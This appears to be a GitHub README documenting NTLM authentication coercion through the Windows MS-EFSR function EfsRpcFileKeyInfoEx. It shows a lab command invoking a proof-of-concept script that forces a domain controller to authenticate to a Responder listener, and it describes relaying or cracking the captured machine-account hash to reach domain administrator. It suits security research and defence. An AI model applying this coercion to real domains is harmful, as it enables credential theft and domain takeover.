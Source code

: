 # MS-EFSR - Remote call to EfsRpcFileKeyInfoEx (opnum 16)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcFileKeyInfoEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d)

+ **Function operation number**: `16`

+ **RPC Interfaces**:
   + Interface 1:
     - uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
     - version=`1.0`
     - Accessible through:
       + SMB named pipe: `\PIPE\lsarpc`
       + SMB named pipe: `\PIPE\lsass`
       + SMB named pipe: `\PIPE\netlogon`
       + SMB named pipe: `\PIPE\samr`
   + Interface 2:
     - uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
     - version=`1.0`
     - Accessible through:
       + SMB named pipe: `\PIPE\efsrpc`


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcFileKeyInfoEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcFileKeyInfoEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcFileKeyInfoEx(
   [in] handle_t binding_h,
   [in] DWORD dwFileKeyInfoFlags,
   [in, unique] EFS_RPC_BLOB* Reserved,
   [in, string] wchar_t* FileName,
   [in] DWORD InfoClass,
   [out] EFS_RPC_BLOB** KeyInfo
 );
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **dwFileKeyInfoFlags**: This parameter is reserved. It MUST be set to zero by the client and ignored by the server.

+ **Reserved**: This parameter is reserved. It MUST be set to NULL by the client and ignored by the server.

+ **FileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **InfoClass**: One of the values specified for the InfoClass parameter of the EfsRpcFileKeyInfo method. One of the values in the following table. With the exception of UPDATE_KEY_USED (0x00000100), a server SHOULD support all of these values. A server MAY choose to support UPDATE_KEY_USED.<45>

| Name | Value | Description |
|---|---|---|
| `BASIC_KEY_INFO` | `0x00000001` |  Request information about the keys used to encrypt the object's contents. On success, the server will return the information in an `EFS_KEY_INFO` (2.2.14) structure in the `KeyInfo` parameter. | 
| `CHECK_COMPATIBILITY_INFO` | `0x00000002` | Requests the EfsVersion for the encrypted file. On success, the server will return the information in an `EFS_COMPATIBILITY_INFO` structure in the KeyInfo parameter. | 
| `UPDATE_KEY_USED` | `0x00000100` | Update the user certificates used to give a specific user access to an object. The server will populate the `KeyInfo` parameter with a zero-terminated, wide character Unicode string that contains a newline-separated list of names of objects successfully updated. | 
| `CHECK_DECRYPTION_STATUS` | `0x00000200` | Request a hint from the server as to whether the given object could be successfully decrypted without further user intervention or higher-level events. The server will return this information in an `EFS_DECRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |
| `CHECK_ENCRYPTION_STATUS` | `0x00000400` | Request a hint from the server as to whether the given object could be successfully encrypted without further user intervention or higher-level events. The server will return this information in an `EFS_ENCRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |


+ **KeyInfo**: The server SHOULD ignore this parameter.

+ **Return Values**: The server SHOULD return a nonzero value.

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcFileKeyInfoEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d0da10ab-3139-4d67-a66c-ea6eb497118d